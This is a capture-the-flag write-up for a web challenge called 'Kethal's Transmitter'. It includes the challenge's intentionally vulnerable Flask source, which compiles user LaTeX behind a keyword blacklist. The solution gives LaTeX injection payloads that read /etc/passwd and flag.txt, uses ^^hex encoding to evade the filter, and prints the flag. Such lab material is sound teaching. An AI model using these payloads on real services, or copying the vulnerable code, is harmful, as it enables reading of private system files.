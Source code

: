 # Kethal's Transmitter

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Sending signals over space can take a long time.  Kethal recently built a technology capable of transmitting messages to other galaxies using a specific signal.  If only I could figure out what techniques he uses.

#### Preview:

![image](https://github.com/user-attachments/assets/6c47c66e-d94e-4210-9181-d0e173553ad6)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker_ip:5000`

## Solution
<details>

![image](https://github.com/user-attachments/assets/c95bf775-d98c-40c8-8eb8-8329154a928e)

### Source Code (Python)
```python
from flask import Flask, render_template, request, jsonify
import subprocess
import os
import uuid
import base64
import time
import shutil

app = Flask(__name__)
app.config['SECRET_KEY'] = 'secret_key'
app.config['TEMP_FOLDER'] = 'temp'
app.config['FLAG'] = 'ICTF25{test_flag}'

os.makedirs(app.config['TEMP_FOLDER'], exist_ok=True)

LATEX_TEMPLATE = r"""
\documentclass{{article}}
\usepackage{{amsmath}}
\pagestyle{{empty}}

\begin{{document}}
{}
\end{{document}}
"""

blacklisted = ['flag', '.txt','newread','openin','read','file','line','closein','verbatim','usepackage','verbatiminput','lstinputlisting']

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/render', methods=['POST'])
def render_latex():
    cleanup_old_jobs(app.config['TEMP_FOLDER'])

    latex_code = request.form.get('latex', '')

    for word in blacklisted:
        if word in latex_code.lower():
            return jsonify({'error': 'Forbidden word detected'})

    job_id = str(uuid.uuid4())
    job_dir = os.path.join(app.config['TEMP_FOLDER'], job_id)
    os.makedirs(job_dir, exist_ok=True)

    try:
        flag_path = os.path.join(job_dir, 'flag.txt')
        with open(flag_path, 'w') as f:
            f.write(app.config['FLAG'])  

        full_latex = LATEX_TEMPLATE.format(latex_code)
        tex_file = os.path.join(job_dir, 'document.tex')
        with open(tex_file, 'w') as f:
            f.write(full_latex)

        result = subprocess.run(
            ['pdflatex', '-interaction=nonstopmode', '-output-directory', job_dir, tex_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if result.returncode != 0:
            return jsonify({
                'error': 'Invalid Function!'
            })

        pdf_file = os.path.join(job_dir, 'document.pdf')
        png_file = os.path.join(job_dir, 'output.png')
        convert_result = subprocess.run(
            ['convert', '-density', '150', pdf_file, '-quality', '90', png_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if convert_result.returncode != 0:
            return jsonify({'error': 'Image conversion failed'})

        with open(png_file, 'rb') as f:
            image_data = base64.b64encode(f.read()).decode('utf-8')

        response = {'image': image_data}
        return jsonify(response)

    except subprocess.TimeoutExpired:
        return jsonify({'error': 'Compilation Timed Out'})
    except Exception as e:
        return jsonify({'error': 'An error occurred'})
    finally:
        pass


def cleanup_old_jobs(temp_folder, max_age_seconds=60): 
    now = time.time()
    for job_name in os.listdir(temp_folder):
        job_path = os.path.join(temp_folder, job_name)
        if os.path.isdir(job_path):
            try:
                creation_time = os.path.getctime(job_path)
                if now - creation_time > max_age_seconds:
                    shutil.rmtree(job_path)
            except Exception as e:
                print(f"Cleanup error for {job_path}: {e}")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

Based on the source code, the vulnerability of the website seems like [Latex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

To bypass a blacklist try to replace one character with it's unicode hex value. Can refer to [PayloadsAllTheThins](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

![image](https://github.com/user-attachments/assets/cd88bbcf-7b6f-4586-b7d9-b8bb96f9c018)

Blacklisted strings:
`'flag', '.txt', 'newread', 'openin', 'read', 'file', 'line', 'closein', 'verbatim', 'usepackage', 'verbatiminput', 'lstinputlisting'`

Encode the characters with hex to bypass blacklisted words.

![image](https://github.com/user-attachments/assets/b1fa3b60-e075-4aca-8c5b-aa82e99c9af6)

Therefore, we can try use the same payload again and encode some of the characters with its hex value to bypass the blacklisting function.

![image](https://github.com/user-attachments/assets/4a5ea1f8-6eeb-4b68-aa09-e35b662b802c)

It seems like it works so we can encode the rest of the characters like "flag.txt" to read the content of the file. The following payload should look like this:

```
\newr^^65ad\fil^^65
\open^^69n\fil^^65=fl^^61g.t^^78t
\re^^61d\fil^^65 to\lin^^65
\text{\lin^^65}
\close^^69n\fil^^65
```

Using the payload and submit it into the input will reveal the contents inside the file "flag.txt". Thus, the flag is successfully obtained.

![image](https://github.com/user-attachments/assets/82d48f15-4a35-4436-b332-82c7d361b9da)

### Flag
> ICTF25{dd265d58e3e1941a0cce646df439ea13c931d0159fe5c754cd39c8bad146fea7}

</details>
